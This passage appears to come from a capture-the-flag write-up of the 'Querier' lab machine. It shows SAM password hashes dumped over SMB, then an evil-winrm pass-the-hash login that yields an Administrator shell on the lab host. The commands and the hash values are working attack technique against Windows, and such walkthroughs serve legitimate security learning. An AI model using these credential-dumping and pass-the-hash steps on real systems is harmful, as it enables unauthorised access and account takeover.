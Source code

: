 ```bash
SMB         10.129.67.247   445    QUERIER          reporting:1002:aad3b435b51404eeaad3b435b51404ee:5c8c5434d1c5cfea71d25a364adcc5e8:::
SMB         10.129.67.247   445    QUERIER          [+] Added 6 SAM hashes to the database
```

```bash
➜  content evil-winrm -i 10.129.67.247 -u Administrator -H 2dcefe78334b42c0ce483b8e1b2886ab

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
querier\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
